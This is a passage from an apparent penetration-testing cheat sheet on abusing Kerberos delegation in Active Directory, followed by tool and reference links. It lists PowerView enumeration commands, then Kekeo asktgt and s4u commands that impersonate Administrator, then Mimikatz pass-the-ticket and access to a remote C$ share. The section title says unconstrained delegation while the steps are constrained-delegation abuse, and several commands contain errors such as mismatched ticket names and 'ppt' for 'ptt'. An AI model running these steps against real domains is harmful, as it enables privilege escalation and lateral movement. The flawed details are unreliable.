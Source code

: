 - Identifying Users with Unconstrained Delegation Enabled
    ```powershell
    Get-DomainUser -TrustedToAuth
    Get-DomainComputer -TrustedToAuth
    ```
    ```powershell
    Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
    ```
- Get cleartext password or NTLM hash of the service account. 
- Use the above, with `Kekeo`  to get TGT
  - `asktgt.exe /user:exadmin /domain:example.powershell.local /key:deadbeefdeadbeefdeadbeef /ticket:exadmin.kirbi`
- Use TGT to get TGS:
  - Retquest a TGS as the user `/user:Administrator`
  - `\s4u.exe /tgt:axadmin.kribi /user:Administrator@example.powershell.local /service:cifs/example1.powershell.local`
- Use TGT
  - `Invoke-Mimikatz -Command '"kerberos:ppt example.kribi"'`
  - `ls \\example.powershell.local\c$`


## Tools 

- A little toolbox to play with Microsoft Kerberos in C: [https://github.com/gentilkiwi/kekeo/](https://github.com/gentilkiwi/kekeo/)
- C# toolset for raw Kerberos interaction and abuses: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## References

- <https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal>
- <https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos>
- <https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H>
- <https://www.tarlogic.com/en/blog/how-kerberos-works/<>
- [Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://www.youtube.com/watch?v=HHJWfG9b0-E)

### New References

- Kerberos & Attacks 101: <https://www.youtube.com/watch?v=IBeUz7zMN24&feature=youtu.be
- [Attacking Microsoft Kerberos Kicking the Guard Dog of Hades Tim Medin](https://www.youtube.com/watch?v=PUyhlN-E5MU ) 
- <https://blog.redforce.io/oh-my-kerberos-do-not-get-kerberoasted/>
- <https://www.tarlogic.com/en/blog/how-kerberos-works/>
- <https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>
